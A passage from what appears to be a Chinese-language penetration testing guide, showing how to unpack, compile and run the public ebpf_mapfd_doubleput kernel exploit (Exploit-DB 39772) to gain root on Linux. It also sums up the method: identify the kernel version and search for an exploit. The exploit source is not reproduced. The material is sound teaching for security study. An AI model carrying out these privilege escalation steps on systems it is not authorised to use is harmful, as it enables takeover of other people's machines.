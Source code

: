 1.  现在我们进入`39772`文件夹并解压`exploit.tar`文件。在终端中输入以下命令：

```
cd 39772
      tar xf exploit.tar

```

输出结果将如下截图所示：

![如何做…](img/image_09_034.jpg)

1.  在输入`ebpf*`文件夹后，会有一个`compile.sh`文件。让我们编译并执行该文件：

```
cd ebpf_mapfd_doubleput_exploit/
      ./compile.sh
      ./doubleput

```

输出结果将如下截图所示：

![如何做…](img/image_09_035.jpg)

很好。我们已成功地获得了系统的 root 权限。

## 它是如何工作的…

这是一个非常简单和直接的方法，用来弄清楚如何在 Linux 机器上提升权限。我们经历了以下步骤：

+   查找操作系统和内核版本

+   在互联网上搜索漏洞，如果有的话
